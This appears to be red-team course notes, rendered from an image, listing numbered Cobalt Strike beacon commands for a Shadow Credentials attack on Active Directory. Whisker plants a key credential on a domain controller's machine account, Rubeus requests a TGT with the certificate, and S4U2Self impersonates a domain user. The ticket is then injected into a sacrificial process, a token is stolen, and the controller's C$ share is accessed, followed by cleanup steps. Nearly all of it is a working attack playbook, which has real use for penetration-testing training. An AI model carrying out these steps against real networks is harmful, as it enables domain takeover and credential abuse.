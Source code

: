     #2-a. List any keys that might already be present for a target - this is important for when we want to clean up later. (Add $ for computer objects in /target)
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
      
    #2-b. Enumerate for Users or Computers which might already be configured for Using Shadow Credentials
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-KeyCredentialLink=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(msDS-KeyCredentialLink=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
      
    #3. Then, Add a new key pair to the target. (Note the DeviceID GUID added. So we can remove later on.)
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
      
    #4. Check if Shadow Credential is added.
    # Using Whisker
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
    # Using PowerView
    beacon> powerpick Get-DomainUser -Identity supportXuser
    beacon> powerpick Get-DomainComputer -Identity dc-2
      
    #5. And now, we can ask for a TGT leveraging the certificate and using the Rubeus command that Whisker provides.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap
      
    #6-a. For machine account TGT , we can perform S4U2Self Abuse and get a TGS
    # Generate TGS from TGT
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /nowrap /ticket:doIFuj[...]lDLklP
    # Inject TGS in a sacrificial process
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
    beacon> steal_token 2664
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
      
    #6-b. For a User Account TGT, We can just inject it by creating a sacrificial Process.
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
      
    beacon> steal_token 2664
    beacon> ls \\dc-2.dev.cyberbotic.io\c$
      
    #7. Now we can clean Up , Whisker's clear command will remove any and all keys from msDS-KeyCredentialLink.
    #List all the entries
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
    #Remove specific entries
    beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
